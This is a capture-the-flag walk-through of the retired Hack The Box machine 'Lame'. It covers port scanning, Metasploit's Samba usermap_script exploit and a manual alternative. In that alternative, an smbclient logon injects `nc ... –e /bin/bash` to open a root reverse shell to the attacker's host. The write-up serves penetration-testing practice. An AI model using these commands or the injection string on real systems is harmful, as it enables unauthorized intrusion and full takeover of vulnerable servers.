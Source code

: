 ```yaml
---
title: "Walk-through of Lame from HTB"
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Metasploit
  - Linux
---
```


## Machine Information

![Lame](/images/2020-04-05-21-43-26.png)

This was the first machine released on the [Hack The Box](https://www.hackthebox.eu/home) platform. It's now retired so only available to those with VIP membership here: [HTB - 001 - Easy - Lame](https://www.hackthebox.eu/home/machines/profile/1)
<!--more-->

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/lame# nmap -sS -sC -sV -oA lame -p- -T4 10.10.10.3

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-16 22:10 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup:WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup:WORKGROUP)
3632/tcp open  distccd     distccd v1((GNU)4.2.4(Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -2d23h00m43s, deviation: 0s, median: -2d23h00m43s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-13T14:11:05-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Lots of ports open. Has port 21 open with anonymous FTP, but looking around there is nothing obvious.

### Gaining Access

Box is running vsftpd 2.3.4 so check searchsploit for vulnerability:

```text
root@kali:~/htb/lame# searchsploit vsftpd
---------------------------------------------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(1)  | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(2)  | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------
```

Last one in above list for backdoor execution looks good. Start Metasploit and load exploit:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search vsftpd 2.3.4
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > show options
msf5 > set RHOST 10.10.10.3
msf5 > exploit
```

No luck, go back to list of services, now try samba on port 445:

```text
root@kali:~/htb/lame# searchsploit samba 3.0.20
---------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | exploits/linux/remote/7701.txt
---------------------------------------------------------------------------------
```

Remote heap overflow sounds promising, go back in to Metasploit and try it:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search samba 3.0.20
msf5 > use exploit/multi/samba/usermap_script
msf5 > set RHOST 10.10.10.3
msf5 > exploit

[*] Started reverse TCP double handler on 10.10.14.14:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NKYmctrocnnm8nuo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NKYmctrocnnm8nuo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:35080) at 2019-07-16 22:18:10 +0100
```

This works and I now have a reverse shell on to the box.

### User and Root Flags

I have a shell, but need an interactive one to make progress:

```text
msf5 > shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
```

Now have interactive shell so get the user flag:

```text
# ls /home
ftp  makis  service  user

# ls /home/makis
user.txt

# cat /home/makis/user.txt
# cat /root/root.txt
```

## Alternative Method (without MetaSploit)

Start a Netcat session listening on my Kali machine:

```text
root@kali:~/htb/lame# nc –lvp 4444
```

Switch to another terminal and use smbclient to connect:

```text
root@kali:~/htb/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password:        <--- just press enter
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc 10.10.14.22 4444 –e /bin/bash`"
Password:                               <--- just press enter
```

Switch back to Netcat terminal and should have root shell:

```text
# id
uid=0(root) gid=0(root)
```

Can get flags as above now.
